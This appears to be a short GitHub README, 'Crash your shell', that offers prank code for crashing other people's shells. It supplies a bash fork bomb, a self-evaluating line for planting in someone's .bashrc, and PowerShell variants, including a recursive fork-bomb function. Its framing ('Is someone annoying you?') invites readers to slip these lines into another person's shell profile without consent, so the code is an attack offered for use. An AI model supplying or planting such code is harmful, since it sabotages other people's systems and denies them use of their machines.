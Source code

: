 # Crash your shell

Is someone annoying you? Crash their shell with just a few lines of code.

### Usage
Try adding these commands to the shell's profile. :laughing:

#### Bash
Just add this to their [`.bashrc`] <sup>[1]</sup>:
```bash
eval "$BASH_COMMAND"
```
Or even their whole system:
```bash
:(){ :|:& };:
```

#### PowerShell 5
```powershell
$? = True
```

#### PowerShell 6
```
function i { i|i& };i
```

More coming soon.

---
### Notes
1. See https://github.com/dylanaraps/blag/blob/master/src/future/breaking-bash.md
